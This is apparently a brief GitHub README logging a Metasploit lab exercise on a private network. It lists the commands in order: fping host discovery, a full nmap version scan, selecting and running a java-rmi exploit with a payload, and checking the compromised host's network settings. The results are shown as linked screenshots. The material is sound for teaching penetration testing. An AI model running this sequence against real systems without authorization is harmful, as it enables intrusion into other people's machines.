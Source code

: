 # **METASPLOIT**
## **mapping**
```bash
fping -a -g 192.168.11.0/24
```
➡️[Risultato](https://github.com/OctavianIT/Octavian_Ceresau_MetasploitTest/blob/main/Octavian_Ceresau_MetasploitTest/foto1.png)
## **nmap**
```bash
nmap -sV -T5 192.168.11.112 -p- 
```
➡️[Risultato](https://github.com/OctavianIT/Octavian_Ceresau_MetasploitTest/blob/main/Octavian_Ceresau_MetasploitTest/foto2.png)
## **exploit**
```bash
search type:exploit java-rmi
use 0
```
## **payloads**
```bash
show payloads
set PAYLOAD 9
exploit
```
➡️[Risultato](https://github.com/OctavianIT/Octavian_Ceresau_MetasploitTest/blob/main/Octavian_Ceresau_MetasploitTest/foto4.png)
## **target**
```bash
ipconfig
route
```
➡️[Risultato](https://github.com/OctavianIT/Octavian_Ceresau_MetasploitTest/blob/main/Octavian_Ceresau_MetasploitTest/foto5.png)
